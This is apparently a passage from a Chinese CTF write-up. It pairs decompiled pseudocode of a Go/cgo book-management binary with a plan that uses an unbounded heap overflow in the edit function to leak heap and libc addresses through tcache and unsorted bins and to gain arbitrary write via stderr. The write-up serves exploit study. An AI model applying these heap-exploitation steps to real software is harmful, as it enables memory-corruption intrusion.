      {
        v117 = encoding_base64__ptr_Encoding_DecodeString(qword_41A138, input_mypackage_CTFBook->Title);// 对title字段base64解码
        if ( v117.1.tab )
        {
          errordeocd[0] = &RTYPE_string;
          errordeocd[1] = &Error__decoding;
          return fmt_Fprintln(
                   (unsigned int)io_write,
                   qword_41A3E8,
                   (unsigned int)errordeocd,
                   1,
                   1,
                   v34,
                   v35,
                   v36,
                   v37,
                   v82);
        }
        else
        {
          title_len = v117.0.len;
          title_ptr = v117.0.ptr;
          v118 = encoding_base64__ptr_Encoding_DecodeString(qword_41A138, input_mypackage_CTFBook->Author);// 对author字段base64解码
          if ( v118.1.tab )
          {
            v114[0] = &RTYPE_string;
            v114[1] = &Error__decoding;
            return fmt_Fprintln((unsigned int)io_write, qword_41A3E8, (unsigned int)v114, 1, 1, v38, v39, v40, v41, v82);
          }
          else
          {
            author_ptr = v118.0.ptr;
            author_len = v118.0.len;
            v119 = encoding_base64__ptr_Encoding_DecodeString(qword_41A138, input_mypackage_CTFBook->Isbn);// 对isbn字段base64解码
            if ( v119.1.tab )
            {
              v113[0] = &RTYPE_string;
              v113[1] = &Error__decoding;
              return fmt_Fprintln(
                       (unsigned int)io_write,
                       qword_41A3E8,
                       (unsigned int)v113,
                       1,
                       1,
                       v42,
                       v43,
                       v44,
                       v45,
                       v82);
            }
            else
            {
              isbn_ptr = v119.0.ptr;
              isbn_len = v119.0.len;
              v120 = encoding_base64__ptr_Encoding_DecodeString(qword_41A138, input_mypackage_CTFBook->PublishDate);// 对publishdata解码base64
              if ( v120.1.tab )
              {
                v112[0] = &RTYPE_string;
                v112[1] = &Error__decoding;
                return fmt_Fprintln(
                         (unsigned int)io_write,
                         qword_41A3E8,
                         (unsigned int)v112,
                         1,
                         1,
                         v46,
                         v47,
                         v48,
                         v49,
                         v82);
              }
              else
              {
                publishdata_ptr = v120.0.ptr;
                main__cgo_cmalloc(
                  (__int64)v120.0.ptr,
                  v120.0.len,
                  v120.0.cap,
                  0,
                  (int)v120.1.data,
                  v46,
                  v47,
                  v48,
                  v49,
                  48,
                  v85);
                if ( malloc_for_book_struct_addr )// 由上面的main_cgo_cmalloc分配的
                {
                  book_struct = (_QWORD *)malloc_for_book_struct_addr;
                  main__cgo_cmalloc(
                    title_len,
                    v120.0.len,
                    title_len + 1,
                    0,
                    (int)v120.1.data,
                    v50,
                    v51,
                    v52,
                    v53,
                    title_len + 1,
                    malloc_for_book_struct_addr);
                  v58 = 0x40000000LL;
                  if ( title_len < 0x40000000 )
                    v58 = title_len;
                  v96 = v58;
                  if ( dword_44AC30 )
                  {
                    LODWORD(v120.1.tab) = (_DWORD)book_struct;
                    runtime_gcWriteBarrier(malloc_title_ptr);
                  }
                  else
                  {
                    *book_struct = malloc_title_ptr;
                  }
                  main__cgo_cmalloc(
                    author_len,
                    v120.0.len,
                    author_len + 1,
                    (int)v120.1.tab,
                    (int)v120.1.data,
                    v54,
                    v55,
                    v56,
                    v57,
                    author_len + 1,
                    malloc_title_ptr);
                  if ( dword_44AC30 )
                  {
                    LODWORD(v120.1.tab) = (_DWORD)book_struct + 8;
                    runtime_gcWriteBarrier(malloc_author_ptr_1);
                  }
                  else
                  {
                    book_struct[1] = malloc_author_ptr_1;
                  }
                  main__cgo_cmalloc(
                    isbn_len,
                    v120.0.len,
                    isbn_len + 1,
                    (int)v120.1.tab,
                    (int)v120.1.data,
                    v59,
                    v60,
                    v61,
                    v62,
                    isbn_len + 1,
                    malloc_author_ptr_1);
                  if ( dword_44AC30 )
                  {
                    LODWORD(v120.1.tab) = (_DWORD)book_struct + 16;
                    runtime_gcWriteBarrier(malloc_isbn_ptr);
                  }
                  else
                  {
                    book_struct[2] = malloc_isbn_ptr;
                  }
                  main__cgo_cmalloc(
                    v120.0.len,
                    v120.0.len,
                    LODWORD(v120.0.len) + 1,
                    (int)v120.1.tab,
                    (int)v120.1.data,
                    v63,
                    v64,
                    v65,
                    v66,
                    LOBYTE(v120.0.len) + 1,
                    malloc_isbn_ptr);
                  if ( dword_44AC30 )
                  {
                    runtime_gcWriteBarrier(malloc_publishdata_ptr);
                  }
                  else
                  {
                    book_struct_addr = book_struct;
                    book_struct[3] = malloc_publishdata_ptr;
                  }
                  if ( title_ptr != (uint8 *)*book_struct_addr )
                  {
                    runtime_memmove(*book_struct_addr, title_ptr, v96);
                    book_struct_addr = book_struct;
                  }
                  malloc_author_ptr = (uint8 *)book_struct_addr[1];
                  author_len_1 = 0x40000000LL;
                  if ( author_len < 0x40000000 )
                    author_len_1 = author_len;
                  if ( author_ptr != malloc_author_ptr )
                  {
                    runtime_memmove(malloc_author_ptr, author_ptr, author_len_1);
                    book_struct_addr = book_struct;
                  }
                  malloc_isbn_ptr_1 = (uint8 *)book_struct_addr[2];
                  isbn_len_1 = 0x40000000LL;
                  if ( isbn_len < 0x40000000 )
                    isbn_len_1 = isbn_len;
                  if ( isbn_ptr != malloc_isbn_ptr_1 )
                  {
                    runtime_memmove(malloc_isbn_ptr_1, isbn_ptr, isbn_len_1);
                    book_struct_addr = book_struct;
                  }
                  malloc_publish_ptr = (uint8 *)book_struct_addr[3];
                  malloc_publishdata_len = 0x40000000LL;
                  if ( (__int64)v120.0.len < 0x40000000 )
                    malloc_publishdata_len = v120.0.len;
                  if ( publishdata_ptr != malloc_publish_ptr )
                  {
                    runtime_memmove(malloc_publish_ptr, publishdata_ptr, malloc_publishdata_len);
                    book_struct_addr = book_struct;
                  }
                  input_mypackage_CTFBook_1 = input_mypackage_CTFBook;
                  book_struct_addr[4] = *(_QWORD *)&input_mypackage_CTFBook->Price;
                  book_struct_addr[5] = input_mypackage_CTFBook_1->Stock;
                  if ( dword_44AC30 )
                  {
                    runtime_gcWriteBarrierDX(&book_chunk_array[index], v120.1.data, book_struct_addr);
                  }
                  else
                  {
                    v77 = index;
                    v78 = book_chunk_array;
                    book_chunk_array[index] = book_struct_addr;// 最后赋值到数组中
                  }
                  add_success[0] = &RTYPE_string;
                  add_success[1] = &Book_added_successfully;
                  return fmt_Fprintln(
                           (unsigned int)io_write,
                           qword_41A3E8,
                           (unsigned int)add_success,
                           1,
                           1,
                           v77,
                           (_DWORD)v78,
                           v67,
                           v68,
                           v84);
                }
                else
                {
                  Failed_allocate_memory_Book[0] = &RTYPE_string;
                  Failed_allocate_memory_Book[1] = &off_2BBC00;
                  return fmt_Fprintln(
                           (unsigned int)io_write,
                           qword_41A3E8,
                           (unsigned int)Failed_allocate_memory_Book,
                           1,
                           1,
                           v50,
                           v51,
                           v52,
                           v53,
                           v83);
                }
              }
            }
          }
        }
      }
    }
  }
}
```

###  see_book
下次通过格式化字符串可以确定结构体变量的类型

```cpp
// main.CU5GMG
__int64 __golang see_book(
        __int64 a1,
        __int64 a2,
        __int64 a3,
        __int64 a4,
        __int64 a5,
        __int64 a6,
        int a7,
        int a8,
        int a9)
{
  // [COLLAPSED LOCAL DECLARATIONS. PRESS KEYPAD CTRL-"+" TO EXPAND]

  while ( (unsigned __int64)Invalid_index <= *(_QWORD *)(v9 + 16) )
    a1 = runtime_morestack_noctxt(a1);
  v86[0] = &RTYPE_string;
  v86[1] = &index_string;
  v10 = qword_41A3E8;
  v11 = fmt_Fprint(
          (unsigned int)io_write,
          qword_41A3E8,
          (unsigned int)v86,
          1,
          1,
          (unsigned int)&index_string,
          a7,
          a8,
          a9,
          v69);
  index = input_number(v11, v10, v12, 1, 1);
  if ( index < 0x1C && (v19 = (_QWORD *)book_chunk_array[index]) != 0LL )
  {
    book_struct_addr = (_QWORD *)book_chunk_array[index];
    v83 = runtime_gostring(*v19, v10, v14, 1, 1, v15, v16, v17, v18, v69);
    v79 = v10;
    v82 = runtime_gostring(book_struct_addr[1], v10, (_DWORD)book_struct_addr, 1, 1, v21, v22, v23, v24, v69);
    v78 = v10;
    v81 = runtime_gostring(book_struct_addr[2], v10, (_DWORD)book_struct_addr, 1, 1, v25, v26, v27, v28, v69);
    v77 = v10;
    v80 = runtime_gostring(book_struct_addr[3], v10, (_DWORD)book_struct_addr, 1, 1, v29, v30, v31, v32, v69);
    v76 = v10;
    v33 = &v69 + 16;
    v68 = &v88;
    ((void (__fastcall *)(__int64 *))loc_C278B)(v33);
    v39 = runtime_convTstring(v83, v79, v34, (_DWORD)v33, 1, v35, v36, v37, v38, v69, v70);
    v87[0] = (__int64)&RTYPE_string;
    v87[1] = v39;
    v44 = runtime_convTstring(v82, v78, (unsigned int)&RTYPE_string, (_DWORD)v33, 1, v40, v41, v42, v43, v69, v70);
    v87[2] = (__int64)&RTYPE_string;
    v87[3] = v44;
    v49 = runtime_convTstring(v81, v77, (unsigned int)&RTYPE_string, (_DWORD)v33, 1, v45, v46, v47, v48, v69, v70);
    v87[4] = (__int64)&RTYPE_string;
    v87[5] = v49;
    v50 = v76;
    v55 = runtime_convTstring(v80, v76, (unsigned int)&RTYPE_string, (_DWORD)v33, 1, v51, v52, v53, v54, v69, v70);
    v87[6] = (__int64)&RTYPE_string;
    v87[7] = v55;
    v60 = runtime_convT64(book_struct_addr[4], v50, (_DWORD)book_struct_addr, (_DWORD)v33, 1, v56, v57, v58, v59, v69);
    v87[8] = (__int64)&RTYPE_float64;
    v87[9] = v60;
    v65 = runtime_convT64(book_struct_addr[5], v50, (_DWORD)book_struct_addr, (_DWORD)v33, 1, v61, v62, v63, v64, v69);
    v87[10] = (__int64)&RTYPE_int;
    v87[11] = v65;                              // 前四个转换为字符串，后两个转换为整数
    return fmt_Fprintf(
             (unsigned int)io_write,
             qword_41A3E8,
             (unsigned int)"Title: %s\nAuthor: %s\nISBN: %s\nPublish Date: %s\nPrice: %.2f\nStock: %d",
             69,
             (unsigned int)v87,
             6,
             6,
             v66,
             v67,
             v69,
             v70,
             v71,
             v72,
             v73,
             v74,
             v75);
  }
  else
  {
    Invalid_index[0] = &RTYPE_string;
    Invalid_index[1] = &Invalid__index;
    return fmt_Fprintln(
             (unsigned int)io_write,
             qword_41A3E8,
             (unsigned int)Invalid_index,
             1,
             1,
             v15,
             v16,
             v17,
             v18,
             v69);
  }
}
```
### return_book

```cpp
// main.F3ZJ75
__int64 __golang return_book(
        __int64 a1,
        __int64 a2,
        __int64 a3,
        __int64 a4,
        __int64 a5,
        __int64 a6,
        int a7,
        int a8,
        int a9)
{
  // [COLLAPSED LOCAL DECLARATIONS. PRESS KEYPAD CTRL-"+" TO EXPAND]

  while ( (unsigned __int64)&retaddr <= *(_QWORD *)(v9 + 16) )
    a1 = runtime_morestack_noctxt(a1);
  v48[0] = &RTYPE_string;
  v48[1] = &index_string;
  v10 = qword_41A3E8;
  v11 = fmt_Fprint(
          (unsigned int)io_write,
          qword_41A3E8,
          (unsigned int)v48,
          1,
          1,
          (unsigned int)&index_string,
          a7,
          a8,
          a9,
          v39);
  index = input_number(v11, v10, v12, 1, 1);
  if ( index < 0x1C && (book_struct_addr_1 = (__int64 *)book_chunk_array[index]) != 0LL )
  {
    index_1 = index;
    book_struct_addr = book_chunk_array[index];
    main_F3ZJ75_func1(book_struct_addr_1, v10, v14, 1LL, 1, (int)book_struct_addr_1, v16, v17, v18);
    main_F3ZJ75_func2(book_struct_addr, v10, v20, 1, 1, v21, v22, v23, v24, v40);
    main_F3ZJ75_func3(book_struct_addr, v10, v25, 1, 1, v26, v27, v28, v29, v41);
    main_F3ZJ75_func4(book_struct_addr, v10, v30, 1, 1, v31, v32, v33, v34, v42);// 是对四个堆指针做检查然后free掉
    if ( dword_44AC30 )
    {
      runtime_gcWriteBarrierDX(&book_chunk_array[index_1], 1LL, 0LL);
    }
    else
    {
      v38 = book_chunk_array;
      book_chunk_array[index_1] = 0LL;          // 清零
    }
    Book_returne_suceess[0] = &RTYPE_string;
    Book_returne_suceess[1] = &::Book_returne_suceess;
    return fmt_Fprintln(
             (unsigned int)io_write,
             qword_41A3E8,
             (unsigned int)Book_returne_suceess,
             1,
             1,
             (_DWORD)v38,
             v35,
             v36,
             v37,
             v43);
  }
  else
  {
    v47[0] = &RTYPE_string;
    v47[1] = &Invalid__index;
    return fmt_Fprintln(
             (unsigned int)io_write,
             qword_41A3E8,
             (unsigned int)v47,
             1,
             1,
             (_DWORD)book_struct_addr_1,
             v16,
             v17,
             v18,
             v40);
  }
}
```

### edit_book

```cpp
// main.OMJP7W
// local variable allocation has failed, the output may be wrong!
__int64 __golang main_OMJP7W(
        __int64 a1,
        __int64 a2,
        __int64 a3,
        __int64 a4,
        __int64 a5,
        __int64 a6,
        int a7,
        int a8,
        int a9)
{
  // [COLLAPSED LOCAL DECLARATIONS. PRESS KEYPAD CTRL-"+" TO EXPAND]

  while ( (unsigned __int64)&author_ptr <= *(_QWORD *)(v9 + 16) )
    a1 = runtime_morestack_noctxt(a1);
  v82[0] = &RTYPE_string;
  v82[1] = &index_string;
  v10 = qword_41A3E8;
  v11 = fmt_Fprint(
          (unsigned int)io_write,
          qword_41A3E8,
          (unsigned int)v82,
          1,
          1,
          (unsigned int)&index_string,
          a7,
          a8,
          a9,
          v58);
  index = input_number(v11, v10, v12, 1, 1);
  if ( index < 0x1C && (v14 = book_chunk_array[index]) != 0 )
  {
    index_1 = index;
    Special_Data[0] = &RTYPE_string;
    Special_Data[1] = &Special__Data;
    v19 = qword_41A3E8;
    v20 = fmt_Fprint(
            (unsigned int)io_write,
            qword_41A3E8,
            (unsigned int)Special_Data,
            1,
            1,
            (unsigned int)&Special__Data,
            v15,
            v16,
            v17,
            v59);
    specail_data = (char *)input(v20);
    v84.len = v19;
    v84.ptr = specail_data;
    v85 = encoding_base32__ptr_Encoding_DecodeString(qword_41A120, v84);// base32解码
    if ( v85.1.tab )
    {
      v79[0] = &RTYPE_string;
      v79[1] = &Error__decoding;
      return fmt_Fprintln((unsigned int)io_write, qword_41A3E8, (unsigned int)v79, 1, 1, v22, v23, v24, v25, v60);
    }
    else
    {
      ptr = (int)v85.0.ptr;
      cap = v85.0.cap;
      p_mypackage_CTFBook = (mypackage_CTFBook *)runtime_newobject(
                                                   &RTYPE_mypackage_CTFBook,
                                                   v85.0.len,
                                                   v85.0.cap,
                                                   0,
                                                   (int)v85.1.data,
                                                   v22,
                                                   v23,
                                                   v24,
                                                   v25);
      if ( github_com_golang_protobuf_proto_Unmarshal(// protobuf反序列化
             ptr,
             v85.0.len,
             cap,
             (unsigned int)off_2BD1C8,
             (_DWORD)p_mypackage_CTFBook,
             v26,
             v27,
             v28,
             v29,
             v60) )
      {
        v78[0] = &RTYPE_string;
        v78[1] = &Error__decoding;
        return fmt_Fprintln((unsigned int)io_write, qword_41A3E8, (unsigned int)v78, 1, 1, v30, v31, v32, v33, v61);
      }
      else
      {
        v86 = encoding_base64__ptr_Encoding_DecodeString(qword_41A138, p_mypackage_CTFBook->Title);
        if ( v86.1.tab )
        {
          v77[0] = &RTYPE_string;
          v77[1] = &Error__decoding;
          return fmt_Fprintln((unsigned int)io_write, qword_41A3E8, (unsigned int)v77, 1, 1, v34, v35, v36, v37, v61);
        }
        else
        {
          title_len = v86.0.len;
          title_ptr = v86.0.ptr;
          v87 = encoding_base64__ptr_Encoding_DecodeString(qword_41A138, p_mypackage_CTFBook->Author);
          if ( v87.1.tab )
          {
            v76[0] = &RTYPE_string;
            v76[1] = &Error__decoding;
            return fmt_Fprintln((unsigned int)io_write, qword_41A3E8, (unsigned int)v76, 1, 1, v38, v39, v40, v41, v61);
          }
          else
          {
            author_len = v87.0.len;
            author_ptr = v87.0.ptr;
            v88 = encoding_base64__ptr_Encoding_DecodeString(qword_41A138, p_mypackage_CTFBook->Isbn);
            if ( v88.1.tab )
            {
              v75[0] = &RTYPE_string;
              v75[1] = &Error__decoding;
              return fmt_Fprintln(
                       (unsigned int)io_write,
                       qword_41A3E8,
                       (unsigned int)v75,
                       1,
                       1,
                       v42,
                       v43,
                       v44,
                       v45,
                       v61);
            }
            else
            {
              isbn_len = v88.0.len;
              isbn_ptr = v88.0.ptr;
              v89 = encoding_base64__ptr_Encoding_DecodeString(qword_41A138, p_mypackage_CTFBook->PublishDate);
              if ( v89.1.tab )
              {
                v74[0] = &RTYPE_string;
                v74[1] = &Error__decoding;
                return fmt_Fprintln(
                         (unsigned int)io_write,
                         qword_41A3E8,
                         (unsigned int)v74,
                         1,
                         1,
                         v46,
                         v47,
                         v48,
                         v49,
                         v61);
              }
              else
              {
                publishdata_ptr = v89.0.ptr;
                book_struct_addr = (_QWORD *)book_chunk_array[index_1];
                book_struct_addr_1 = book_struct_addr;
                title_len_1 = 0x40000000LL;
                if ( title_len < 0x40000000 )
                  title_len_1 = title_len;
                if ( title_ptr != (uint8 *)*book_struct_addr )
                {
                  runtime_memmove(*book_struct_addr, title_ptr, title_len_1);// 根据输入的调整len，没有限制，以下都一样
                  v89.0.ptr = publishdata_ptr;
                  book_struct_addr = book_struct_addr_1;
                }
                author_len_1 = 0x40000000LL;
                if ( author_len < 0x40000000 )
                  author_len_1 = author_len;
                if ( author_ptr != (uint8 *)book_struct_addr[1] )
                {
                  runtime_memmove(book_struct_addr[1], author_ptr, author_len_1);
                  v89.0.ptr = publishdata_ptr;
                  book_struct_addr = book_struct_addr_1;
                }
                isbn_len_1 = 0x40000000LL;
                if ( isbn_len < 0x40000000 )
                  isbn_len_1 = isbn_len;
                v54 = (int)isbn_ptr;
                if ( isbn_ptr != (uint8 *)book_struct_addr[2] )
                {
                  runtime_memmove(book_struct_addr[2], isbn_ptr, isbn_len_1);
                  v89.0.ptr = publishdata_ptr;
                  book_struct_addr = book_struct_addr_1;
                }
                publishdata_len = 0x40000000LL;
                if ( (__int64)v89.0.len < 0x40000000 )
                  publishdata_len = v89.0.len;
                if ( v89.0.ptr != (uint8 *)book_struct_addr[3] )
                {
                  runtime_memmove(book_struct_addr[3], v89.0.ptr, publishdata_len);
                  book_struct_addr = book_struct_addr_1;
                }
                v56 = p_mypackage_CTFBook;
                book_struct_addr[4] = *(_QWORD *)&p_mypackage_CTFBook->Price;
                Stock = v56->Stock;
                book_struct_addr[5] = Stock;    // 最后两项没法溢出
                v83[0] = &RTYPE_string;
                v83[1] = &off_2BBC40;
                return fmt_Fprintln(
                         (unsigned int)io_write,
                         qword_41A3E8,
                         (unsigned int)v83,
                         1,
                         1,
                         Stock,
                         v54,
                         v48,
                         v49,
                         v61);
              }
            }
          }
        }
      }
    }
  }
  else
  {
    v81[0] = &RTYPE_string;
    v81[1] = &Invalid__index;
    return fmt_Fprintln((unsigned int)io_write, qword_41A3E8, (unsigned int)v81, 1, 1, v14, v15, v16, v17, v59);
  }
}
```
### search_book

```cpp
// main.NSKGUW
__int64 __golang search_book(
        __int64 a1,
        __int64 a2,
        __int64 a3,
        __int64 a4,
        __int64 a5,
        __int64 a6,
        int a7,
        int a8,
        int a9)
{
  // [COLLAPSED LOCAL DECLARATIONS. PRESS KEYPAD CTRL-"+" TO EXPAND]

  while ( (unsigned __int64)&v156 <= *(_QWORD *)(v9 + 16) )
    a1 = runtime_morestack_noctxt(a1);
  Keyword__[0] = &RTYPE_string;
  Keyword__[1] = &Keyword_;
  v10 = qword_41A3E8;
  v11 = fmt_Fprint(
          (unsigned int)io_write,
          qword_41A3E8,
          (unsigned int)Keyword__,
          1,
          1,
          (unsigned int)&Keyword_,
          a7,
          a8,
          a9,
          *(__int64 *)v124);
  keyword = input(v11);
  len = v10;                                    // v10可能存储input后输入的长度
  v12 = book_chunk_array_copy;
  com_success = book_chunk_array;
  result = ((__int64 (__fastcall *)(__int64 *, _QWORD *))copy_array)(book_chunk_array_copy, book_chunk_array);// 这个是把将一个数组的数据赋值到另一个数组的数据的
  index = 0LL;
  is_have = 0;
  while ( index < 28 )
  {
    index_1 = index;
    v149 = is_have;
    book_chunk_addr = (_QWORD *)book_chunk_array_copy[index];
    book_chunk_addr_1 = book_chunk_addr;
    if ( book_chunk_addr )
    {
      v21 = runtime_gostring(
              *book_chunk_addr,
              v10,
              index,
              (_DWORD)v12,
              (_DWORD)com_success,
              (_DWORD)book_chunk_addr,
              v16,
              v17,
              v18,
              *(__int64 *)v124);
      if ( len == v10 )                         // v10存储提取到的字符串长度
      {
        len_1 = v10;
        v10 = keyword;
        first_com_flag = runtime_memequal(v21, keyword, len_1);// 比较的
      }
      else
      {
        first_com_flag = 0;
      }
      if ( first_com_flag )                     // 比较成功，没必要比较第二个
      {
        second_flag = 1;
      }
      else
      {
        v26 = runtime_gostring(
                book_chunk_addr_1[1],
                v10,
                (_DWORD)book_chunk_addr_1,
                (_DWORD)v12,
                (_DWORD)com_success,
                v22,
                v16,
                v17,
                v18,
                *(__int64 *)v124);
        if ( len == v10 )
        {
          v27 = v10;
          v10 = keyword;
          second_flag = runtime_memequal(v26, keyword, v27);
        }
        else
        {
          second_flag = 0;
        }
      }
      if ( second_flag )                        // 比较成功，没必要比较第三个
      {
        third_flag = 1;
      }
      else
      {
        v29 = runtime_gostring(
                book_chunk_addr_1[2],
                v10,
                (_DWORD)book_chunk_addr_1,
                (_DWORD)v12,
                (_DWORD)com_success,
                v22,
                v16,
                v17,
                v18,
                *(__int64 *)v124);
        if ( v10 == len )
          third_flag = runtime_memequal(v29, keyword, v10);
        else
          third_flag = 0;
      }
      index = index_1;
      is_have = v149;
      v10 = len;
      book_chunk_addr = book_chunk_addr_1;
      LODWORD(com_success) = third_flag;
      result = keyword;
    }
    else
    {
      LODWORD(com_success) = 0;
    }
    if ( (_BYTE)com_success )                   // 比较成功，输出
    {
      v30 = runtime_gostring(
              *book_chunk_addr,
              v10,
              index,
              (_DWORD)v12,
              (_DWORD)com_success,
              (_DWORD)book_chunk_addr,
              v16,
              v17,
              v18,
              *(__int64 *)v124);
      v31 = v10;
      v32 = v30;
      v35 = runtime_stringtoslicebyte((unsigned int)&v159, v30, v31, (_DWORD)v12, (_DWORD)com_success, v33, v34);
      v162 = main_IDJS3Z(v35, v32, v36, (int)v12, (int)com_success, v37, v38, v39, v40, *(_slice_uint8 *)v124);
      v152 = v32;
      v45 = runtime_gostring(
              book_chunk_addr_1[1],
              v32,
              (_DWORD)book_chunk_addr_1,
              (_DWORD)v12,
              (_DWORD)com_success,
              v41,
              v42,
              v43,
              v44,
              v125);
      v46 = v32;
      v47 = v45;
      v50 = runtime_stringtoslicebyte((unsigned int)&v158, v45, v46, (_DWORD)v12, (_DWORD)com_success, v48, v49);
      v165 = main_IDJS3Z(v50, v47, v51, (int)v12, (int)com_success, v52, v53, v54, v55, v126);
      v154 = v47;
      v60 = runtime_gostring(
              book_chunk_addr_1[2],
              v47,
              (_DWORD)book_chunk_addr_1,
              (_DWORD)v12,
              (_DWORD)com_success,
              v56,
              v57,
              v58,
              v59,
              v127);
      v61 = v47;
      v62 = v60;
      v65 = runtime_stringtoslicebyte((unsigned int)&v157, v60, v61, (_DWORD)v12, (_DWORD)com_success, v63, v64);
      v164 = main_IDJS3Z(v65, v62, v66, (int)v12, (int)com_success, v67, v68, v69, v70, v128);
      v153 = v62;
      v75 = runtime_gostring(
              book_chunk_addr_1[3],
              v62,
              (_DWORD)book_chunk_addr_1,
              (_DWORD)v12,
              (_DWORD)com_success,
              v71,
              v72,
              v73,
              v74,
              v129);
      v76 = v62;
      v77 = v75;
      v80 = runtime_stringtoslicebyte((unsigned int)&v155, v75, v76, (_DWORD)v12, (_DWORD)com_success, v78, v79);
      v163 = main_IDJS3Z(v80, v77, v81, (int)v12, (int)com_success, v82, v83, v84, v85, v130);
      ((void (__fastcall *)(_QWORD *))loc_C2786)(Keyword__);
      v91 = runtime_convT64(index_1, v77, v86, (unsigned int)Keyword__, (_DWORD)com_success, v87, v88, v89, v90, v131);
      v168[0] = (__int64)&RTYPE_int;
      v168[1] = v91;
      v96 = runtime_convTstring(
              v162,
              v152,
              (unsigned int)&RTYPE_int,
              (unsigned int)Keyword__,
              (_DWORD)com_success,
              v92,
              v93,
              v94,
              v95,
              v132,
              v139);
      v168[2] = (__int64)&RTYPE_string;
      v168[3] = v96;
      v101 = runtime_convTstring(
               v165,
               v154,
               (unsigned int)&RTYPE_string,
               (unsigned int)Keyword__,
               (_DWORD)com_success,
               v97,
               v98,
               v99,
               v100,
               v133,
               v140);
      v168[4] = (__int64)&RTYPE_string;
      v168[5] = v101;
      v106 = runtime_convTstring(
               v164,
               v153,
               (unsigned int)&RTYPE_string,
               (unsigned int)Keyword__,
               (_DWORD)com_success,
               v102,
               v103,
               v104,
               v105,
               v134,
               v141);
      v168[6] = (__int64)&RTYPE_string;
      v168[7] = v106;
      v111 = runtime_convTstring(
               v163,
               v77,
               (unsigned int)&RTYPE_string,
               (unsigned int)Keyword__,
               (_DWORD)com_success,
               v107,
               v108,
               v109,
               v110,
               v135,
               v142);
      v168[8] = (__int64)&RTYPE_string;
      v168[9] = v111;
      v116 = runtime_convT64(
               book_chunk_addr_1[4],
               v77,
               (unsigned int)&RTYPE_string,
               (unsigned int)Keyword__,
               (_DWORD)com_success,
               v112,
               v113,
               v114,
               v115,
               v136);
      v168[10] = (__int64)&RTYPE_float64;
      v168[11] = v116;
      v121 = runtime_convT64(
               book_chunk_addr_1[5],
               v77,
               (unsigned int)&RTYPE_float64,
               (unsigned int)Keyword__,
               (_DWORD)com_success,
               v117,
               v118,
               v119,
               v120,
               v137);
      v168[12] = (__int64)&RTYPE_int;
      v168[13] = v121;
      LODWORD(v12) = 79;
      fmt_Fprintf(
        (unsigned int)io_write,
        qword_41A3E8,
        (unsigned int)"Index: %d\nTitle: %s\nAuthor: %s\nISBN: %s\nPublish Date: %s\nPrice: %.2f\nSt",
        79,
        (unsigned int)v168,
        7,
        7,
        v122,
        v123,
        v138,
        v143,
        v144,
        v145,
        v146,
        v147,
        v148);
      result = keyword;
      index = index_1;
      is_have = v149;
      v10 = len;
      LODWORD(com_success) = (unsigned __int8)com_success;
    }
    ++index;
    is_have |= (unsigned __int8)com_success;
  }
  if ( !is_have )                               // 没有匹配的
  {
    No_matching_books_[0] = &RTYPE_string;
    No_matching_books_[1] = &No_matching_books;
    return fmt_Fprintln(
             (unsigned int)io_write,
             qword_41A3E8,
             (unsigned int)No_matching_books_,
             1,
             1,
             (_DWORD)book_chunk_addr,
             v16,
             v17,
             v18,
             *(__int64 *)v124);
  }
  return result;
}
```


## 思路
edit 存在一个任意长度的溢出。每次 add 会分配多个 chunk（应该是 6 个：4 个用来存内部数据，1 个用作接收输入的 special-data 缓冲区，1 个用于 book struct 地址；但调试时在 malloc 处断点只看到 5 个——不确定为什么，可能是那个函数不同，也可能它其实并不是一次分配）

delete 会释放四个堆指针，然后把 book_chunk_array 中对应位置清零，但它不会释放 book_chunk 本身

但感觉光靠 edit 的任意长度溢出就已经足够了。不过 add、edit、delete、show 都会检查 chunk_array 中对应 index 的项是否非零

add 会先对输入数据进行 base32 解码，然后进行 protobuf 反序列化，再对前四个字段进行 base64 解码

1. 我们可以直接从已释放的 chunk 中获取，利用其中残留的数据。bookstruct 所在的结构体大小是 0x40，其余四个 chunk 是 0x20
 一开始就存在大量 chunk。要泄漏堆地址：分配两次；第 7 个 0x20 chunk 的 fd 部分正好是下一部分所在地址右移 12 位的结果，所以我们可以通过 tcache bin 泄漏出堆地址

分配第 8 个 0x20 chunk 时会去 fastbin 里找，一旦在那里找到，fastbin 中的 chunk 就会被转移到 tcache 中
2. 然后泄漏 libc 基址。虽然有很多没用的、已释放的 chunk 在干扰，但我们只需让我们构造的堆布局大小不与这些已释放的 chunk 匹配即可；至于那些我们不会用到的布局中的堆，就让它们仍然来自 bin


我们需要分配一个非 tcache 大小、且不来自 bin 的 chunk，这样它被释放后就能进入 unsorted bin；然后通过溢出填充它，就可以泄漏出来。接下来，分配的 book_struct 不能来自 bin；由于溢出是经过 content 的，content chunk 同样不能来自 bin。把两者链接起来，就能让第一个的 content 溢出到第二个的 content 里

3. 实现任意地址写：把某个 book_struct 结构体某个字段的地址覆盖为 stderr，然后我们就可以写 stderr 的内容。这同样需要一个 book_struct chunk、一个 content chunk，以及下一个 book_struct

